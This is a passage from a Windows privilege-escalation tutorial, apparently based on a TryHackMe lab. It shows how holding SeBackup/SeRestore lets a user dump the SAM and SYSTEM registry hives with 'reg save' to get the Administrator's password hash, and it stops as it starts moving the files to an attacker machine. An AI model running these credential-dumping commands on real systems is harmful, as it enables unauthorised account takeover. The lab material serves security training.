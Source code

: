 ## Abusing dangerous privileges

Privileges in Windows define the specific system-level actions a user account is permitted to perform. These range from basic tasks (like shutting down the system) to advanced permissions (such as bypassing file access controls).

To view the privileges assigned to your current user, run:

```
whoami /priv
```

Attackers focus on **abusable privileges** that allow privilege escalation. For a full list of exploitable privileges, refer to:

- [**Microsoft’s Official Privilege List**](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
- [**Priv2Admin Project**](https://github.com/gtworek/Priv2Admin) (Exploitable privileges and techniques)

We’ll demonstrate how attackers exploit common high-risk privileges—such as **`SeBackup / SeRestore`** or **`SeImpersonatePrivilege`**—to gain elevated access.

### **SeBackup / SeRestore**

These privileges allow users to perform backups from a system without requiring full administrative privileges, and they have read and write permission to any file in the system.

This means we can simply copy the system and SAM hives and extract the local Administrator's password hash.

```bash
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
C:\Windows\system32>reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\Windows\system32>reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
C:\Windows\system32>reg save hklm\system C:\Users\THMBackup\system.hive

```

Transfer the copied files to the attacking box so we can extract them. Here we are using `mbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:
